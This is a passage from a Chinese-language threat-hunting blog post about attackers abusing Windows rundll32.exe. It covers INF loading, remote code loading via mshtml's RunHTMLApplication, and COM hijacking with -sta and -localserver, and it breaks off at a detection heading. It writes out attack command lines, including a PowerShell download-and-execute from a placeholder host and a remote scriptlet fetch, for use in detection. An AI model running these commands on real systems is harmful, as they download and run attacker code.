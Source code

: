 — `c:\windows\system32\rundll32.exe advpack.dll,LaunchINFSection c:\microsoft\360666.png,DefaultInstall`

当然，这些攻击手法在实际使用过程中肯定会有许多变种，用于绕过一些常规的检测方式，比如 MiniDump 函数的调用也可以通过编号 #24 完成

感兴趣的朋友可以看看[这里](http://www.hexacorn.com/blog/2020/02/05/stay-positive-lolbins-not/)：

[![img](https://p1.ssl.qhimg.com/t0198136fa72c1cc6fe.png)](https://p1.ssl.qhimg.com/t0198136fa72c1cc6fe.png)

### 远程代码加载

除了本地加载之外，rundll32.exe 也可以通过 RunHtmlApplication 函数执行 JavaScript 以实现远程代码加载，例如：

— `rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');"`

— `rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/XXX/XXX")`

[![图像](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://pbs.twimg.com/media/BtNtpPRCAAAHmAy?format=png&name=900x900)

值得一提的是，根据笔者的观察，目前还没怎么看到日常活动中关于 javasciprt 关键字的合理使用场景，所以通常我会直接将该特征加入检测模型

想深入了解这一攻击手法，更多内容可以看看这篇[文章](https://thisissecurity.stormshield.com/2014/08/20/poweliks-command-line-confusion/)

### 滥用COM组件

关于 rundll32.exe 还有一些比较少见的命令行参数 ———— `-sta` 和 `-localserver`，它们俩都能用来加载恶意注册的 COM 组件

登上自家的 SIEM 去看看，说不定也能够发现以下活动(至少我确实根据相关数据狩猎到了一些有意思的活动:P)

— `rundll32.exe –localserver <CLSID_GUID>`
— `rundll32.exe –sta <CLSID_GUID>`

对 COM 组件不熟悉的童鞋可能需要先得去补补课，比如 ATT&CK 在持久化阶段中提及到的 [T1546.015-Component Object Model Hijacking](https://attack.mitre.org/techniques/T1546/015/)

简单来讲，当我们看到类似的命令行参数时，最好先去看看对应注册表下的键值对是否包含恶意的 DLL 文件或 SCT 脚本

它们通常在这个位置：`\HKEY_CLASSES_ROOT\CLSID\<GUID>`，可结合下图食用

[![img](https://p4.ssl.qhimg.com/t0169db2cc6b6c64b50.png)](https://p4.ssl.qhimg.com/t0169db2cc6b6c64b50.png)

关于具体的利用原理和攻击细节可以看看[这里](https://bohops.com/2018/06/28/abusing-com-registry-structure-clsid-localserver32-inprocserver32/)，还有这篇[文章](https://www.hexacorn.com/blog/2020/02/13/run-lola-bin-run/)中提到的使用 `-localserver` 作为攻击变种的使用姿势

 

## 检测技巧

### 命令行检测
